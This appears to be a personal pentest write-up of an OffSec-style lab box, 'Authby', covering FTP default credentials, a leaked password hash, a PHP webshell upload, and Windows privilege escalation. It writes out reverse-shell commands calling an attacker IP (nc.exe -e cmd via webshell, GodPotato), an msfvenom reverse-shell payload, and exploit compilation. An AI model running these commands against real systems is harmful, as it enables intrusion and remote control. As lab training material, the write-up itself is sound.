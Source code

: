 # Authby

## Pentest Report for Authby

### Basic Information

* **Box name**: Authby
* **IP address**: 192.168.169.46
* **Operating system**: Windows
* **Date**: 3/24/2025

### Pentest Phases

#### 1. Reconnaissance

* Initial Nmap scan: `nmap -sC -sV -oA initial 192.168.169.46`
* Full scan: `nmap -p- --min-rate 10000 -oA full 192.168.169.46`
* Service version verification

<figure><img src="../../../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

#### 2. Enumeration

* Enumeration of users, groups, and other relevant information
* Search for known vulnerabilities for identified services

Ok so in our scan we got some interesting stuff, we're going to try and abuse one of the FTP services:

Ftp anonymous connection is enabled -> no interesting informations

I am able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

I download every files in the admin share and discover a hash:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption><p>offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0</p></figcaption></figure>

#### 3. Exploitation

* Exploitation attempts of discovered vulnerabilities
* Initial access to the target

it's hashcat mode 1600:

<figure><img src="../../../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

another thing to note is when i connect with admin:admin i am able to upload php shell:

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||2064|)
150 File status okay; about to open data connection.
100% |*************************************************|  5496       23.29 MiB/s    00:00 ETA
226 Closing data connection.
5496 bytes sent in 00:00 (68.09 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||2065|)
150 Opening connection for /bin/ls.
total 9
-r--r--r--   1 root     root         5496 Mar 24 22:34 shell.php
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> 
```

but the php shell does not work so i upload nc exe and a php webshell and manage to get a webshell ->

```
http://192.168.169.46:242/webshell.php?cmd=whoami
```

So for my reverse shell i set up a listener and enter:

```
http://192.168.169.46:242/webshell.php?cmd=nc.exe+192.168.45.228+80+-e+cmd
```

and get my reverse shell

#### 4. Post-Exploitation

* Access persistence
* Privilege escalation
* Sensitive data extraction

After a quick whoami /priv i see that i have impersonate privileges so i start exploitation ->

God potato does not work:

```
.\GodPotato-NET4.exe -cmd "nc.exe -e cmd 192.168.45.228 9876"
```

I already had this issue so i'll use printspoofer:

and i got the error:

```
This version of C:\wamp\www\PrintSpoofer.exe is not compatible with the version of Windows you're running.
```

so i try juicy potato and start by uploading the executable and a shell.exe that i crafted:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.228 -f exe -o shell.exe
```

after being very anoyed i tried another path, i looked at the os version:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and found something that seemed to suit the situation:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I had problems compiling the exploit:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* The default `gcc` compiler on Linux does **not** include Windows headers by default.
* The missing file suggests that i'm trying to compile a Windows-based program on a Linux system without the necessary Windows libraries.

So i need to :\


* **Windows-compatible toolchain** like `i686-w64-mingw32-gcc`, which includes Windows headers.
* Alternatively, install Windows headers for Linux (`mingw-w64`)

And manage to compile the exploit:

```
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

and i just run the exploit and manage to get my shell:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### 5. Cleanup

* Removal of artifacts from the target
* Documentation of vulnerabilities and exploitation methods
